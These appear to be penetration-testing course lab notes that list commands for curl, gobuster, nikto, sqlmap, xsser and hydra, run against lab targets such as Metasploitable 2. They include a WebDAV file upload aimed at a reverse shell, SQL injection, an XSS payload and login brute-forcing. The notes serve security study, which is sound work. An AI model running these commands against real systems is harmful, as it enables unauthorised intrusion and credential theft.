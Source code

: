 # Labs

## <mark style="color:red;">Lab 1 - Web and HTTP Protocol</mark>

{% file src="../.gitbook/assets/http_methods_with_curl_walkthrough.pdf" %}
http methods walkthrough
{% endfile %}

### Practical Demonstration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for the purpose of the exam.
dirb http://$ip # bruteforce and discover directories.
curl -X GET $ip # get entire webpage.
curl --head $ip # for head request. or curl -I $ip
curl -X OPTIONS $ip -v # for OPTIONS.
curl -X POST $ip # POST request.
curl -X PUT $ip # PUT method.
curl -X OPTIONS $ip/login.php # interaction with a sub-page.
curl -X POST 192.45.178.3/login.php -d "name=john&password=password" -v # Passing the username and password to the login.php page.
curl -X OPTIONS 192.45.178.3/uploads/ -v # sneding OPTIOJNS request for /uploads/ directory.




# General Knowledge using Metasploitable 2 as Case-Study.
curl http://192.168.0.141/mutillidae/ -X GET #get request reutrns entire webpage using curl.

# 1 - HEAD
curl http://192.168.0.141/mutillidae/ -I HEAD # head request.

# 2 - upload files
# uploading file to /dav dir with curl to obtain reverse shell.
curl http://192.168.0.141/dav/ --upload-file php_code.php -v

# 3 - OPTIONS
# viewing supported http methods for the victim with curl.
curl -X 'OPTIONS' http://192.168.0.141/dav/ -v
# returns..
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK

```
{% endcode %}



## <mark style="color:red;">Lab 2 - Directory Enumeration with Gobuster</mark>

{% file src="../.gitbook/assets/gobuster_usage.pdf" %}

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt`  - dir enum.

`gobuster dir --help` - help menu.

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt -x .php,.xml,.txt -r` - finding specific file extension.

`-b 403,404` - blacklist/exclude these status codes.

`-x .php,.txt,.xml -r` - search for specific file extension, then `-r` to follow redirect.



## <mark style="color:red;">ZAP</mark>

{% file src="../.gitbook/assets/OWASP_ZAP_scanning_webapp.pdf" %}

## <mark style="color:red;">Lab 3 - Scanning Web Apps with Nikto</mark>

<mark style="color:red;">Best Web app Scanner................</mark>

{% file src="../.gitbook/assets/Nikto_webscan.pdf" %}

`nikto -h http://192.168.0.141` - basic scan with nikto.



## <mark style="color:red;">Passive Crawling with BurpSuite</mark>

{% file src="../.gitbook/assets/Passive_Crawling_with_BURPSUITE.pdf" %}



## <mark style="color:red;">Lab 4 - SQL Injection with SQLMap</mark>

{% file src="../.gitbook/assets/SQL_Map.pdf" %}

`sqlmap -u "http://$ip/path" --cookie "PHPSESSID=3434" -p title` -&#x20;

`sqlmap -u "http://192.183.79.3/sqli_1.php?title=helloworld&action=search" --cookie "PHPSESSID=erpn0pou57poi7dc0avcpedcc6; security_level=0" -p title` - sqlmap.



## <mark style="color:red;">Lab 5 - XSS Attack with XSSer</mark>

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value>` - check for vulnerability.

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<target-host=XSS> --auto` -  checks for other vuln.. you replace your vuln parameter with "XSS".

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value> --Fp "<script>alert(1)</script>"` - to run a custom script.

Then you can copy the payload it generates and use in Burp or ZAP to test your victim site.



## <mark style="color:red;">Lab 6 - Attacking HTTP Login with Hydra</mark>

`hydra -L <users.txt> -P <passwords.txt> $ip http-post-form "/login.php:login=^USER^&password=^PASS&security_level=0form=submit:<regex_Exp to not look for"` - bruteforcing http.



